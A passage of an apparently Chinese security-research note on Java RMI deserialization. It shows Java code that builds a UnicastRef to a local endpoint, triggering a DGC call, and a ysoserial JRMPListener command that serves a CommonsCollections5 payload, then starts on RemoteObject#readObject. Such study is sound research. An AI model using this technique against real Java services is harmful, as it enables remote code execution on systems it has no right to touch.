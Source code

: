 
![image-20240224123702271](./../.gitbook/assets/image-20240224123702271.png)

接着就是发送DGC请求了，可以让其与一个恶意服务通信，返回恶意数据流，则会造成反序列化漏洞。配合`ysoserial.exploit.JRMPListener`构造恶意RMI服务，伪造`异常返回`，让客户端反序列化异常对象。

```java
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
ser(ref);
```

`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12233 CommonsCollections5 "calc"`

![image-20240224124804271](./../.gitbook/assets/image-20240224124804271.png)

## RemoteObject

之前说过，每个远程对象`RemoteObject`都有一个`RemoteRef`作为其远程引用，上一条链子的`UnicastRef`也是`RemoteRef`的子类。`RemoteObject#readObject`会先恢复`ref`属性，就会调用到它的`readExternal`了
